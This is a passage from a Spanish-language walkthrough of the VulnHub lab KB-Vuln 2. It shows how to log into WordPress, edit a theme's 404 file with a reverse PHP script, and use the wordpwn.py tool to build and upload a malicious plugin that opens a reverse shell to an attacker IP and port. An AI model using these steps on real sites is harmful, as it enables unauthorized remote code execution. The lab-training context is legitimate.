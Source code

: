 Ir al login de la web de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/18.png){: .align-center}

Copiar la direccion DNS del action del formulario.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/19.png){: .align-center}

Añadir el dominio dns al archivo `/etc/hosts`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/20.png){: .align-center}

Recargar el sitio, ahora se verá correctamente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/21.png){: .align-center}

Colocar el usuario y contraseña y dar en Log In

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/22.png){: .align-center}

Ir al editor de temas de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/23.png){: .align-center}

Editar el archivo 404 con un script de reverse_php

Preparar un plugin que hará un shell inverso

```bash
cd ~/Downloads/repos

git clone https://github.com/wetw0rk/malicious-wordpress-plugin.git

cd malicious-wordpress-plugin

Python wordpwn.py 192.168.122.5 4444 Y
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/24.png){: .align-center}

Se pondrá de forma automática en escucha

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/25.png){: .align-center}

Y se creará un archivo zip

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/26.png){: .align-center}

Subir el plugin al sitio de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/27.png){: .align-center}
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/28.png){: .align-center}

Activar el plugin
